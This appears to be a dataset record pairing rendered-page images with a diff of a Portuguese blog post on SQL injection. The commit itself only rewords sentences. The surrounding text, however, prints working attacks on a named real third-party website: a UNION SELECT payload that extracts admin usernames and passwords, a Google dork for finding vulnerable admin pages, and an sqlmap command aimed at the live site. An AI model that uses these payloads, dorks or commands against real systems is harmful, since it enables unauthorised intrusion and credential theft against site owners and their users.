

Before and after one commit to Kingm0b/jekyll-minimal-theme, a Jekyll site: the page built from _posts/2017-02-27-sql-injection.md, in a window 1280 px wide and 1400 px high, scrolled down 1670 px. Shown: the whole window, without its empty margins (266-1007 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Add files via upload

````diff
--- a/_posts/2017-02-27-sql-injection.md
+++ b/_posts/2017-02-27-sql-injection.md
@@ -52,13 +52,13 @@ Só por curiosidade, experimente incrementar o valor passado para a variável id
 
 Esses valores são identificadores de dados armazenados no banco. De certa forma, quando você manipula esses valores você está interagindo com o banco de dados do site, uma vez que, a cada valor diferente de ID que você definir gerará uma consulta SELECT diferente pelo script news.php.
 
-Se você acrescentar uma aspa simples junto ao id, você poderá ver uma mensagem de erro retornada:
+Se você acrescentar uma aspa simples junto ao id, poderá ver uma mensagem de erro retornada:
 
 ```
 http://www.thailandquitline.or.th/news.php?id=60'
 ```
 
-Isso aconteceu porque a consulta feita pelo news.php para o banco de dados foi 'corrompida'. Uma vez que o número passado para a variável id continha um código SQL (o aspa ' ). Isso é um bom sinal. Indo mais além olhe isto:
+Isso aconteceu porque a consulta feita pelo news.php para o banco de dados foi 'corrompida', uma vez que o número passado para a variável id continha um código SQL (o aspa ' ). Isso é um bom sinal. Indo mais além, olhe isto:
 
 ```
 http://www.thailandquitline.or.th/news.php?id=-58 union all select concat(username,0x3a,password),2,3,4 from admin--
@@ -80,11 +80,11 @@ Ciente de que existe um padrão na exploração de SQL injection (detecção do
 
 A resposta: GOOGLE
 
-Os sites que postei aqui nesse post foram encontrados por ele. Eu me utilizei de recursos avançados do Google para pesquisas mais específicas.
+Os sites que postei aqui foram encontrados por ele. Eu me utilizei de recursos avançados do Google para pesquisas mais específicas.
 
 Help: https://support.google.com/websearch/answer/2466433?hl=pt-BR
 
-Pesquisas específicas utilizando de operadores avançados de pesquisa do Google são comumente chamados de "dorks", exemplo de como encontrei os sites vulneráveis da Itália:
+Buscas específicas utilizando de operadores avançados de pesquisa do Google são comumente chamados de "dorks", exemplo de como encontrei os sites vulneráveis da Itália:
 
 ```
 inurl:/admin/admin.php +site:it
@@ -201,7 +201,7 @@ $ python sqlmap.py -u http://www.thailandquitline.or.th/news.php?id=1 --current-
 ```
 
 - Obs: O parâmetro -v 0 é legal para diminuir a "verbosidade" do sqlmap. Polui menos o shell.
-- Obs2: Com a opção --current-db o sqlmap nos retornará o esperado nome da database. Isso é importante para o próximo passo, onde uma vez de posse do nome do banco, o sqlmap vai conseguir fazer as consultas ao SGDB de forma mais apropriada.
+- Obs²: Com a opção <code>--current-db</code> o sqlmap nos retornará o esperado nome da database. Isso é importante para o próximo passo, onde uma vez de posse do nome do banco, o sqlmap vai conseguir fazer as consultas ao SGDB de forma mais apropriada.
 
 
 Ele vai te retornar algo como isto:
````
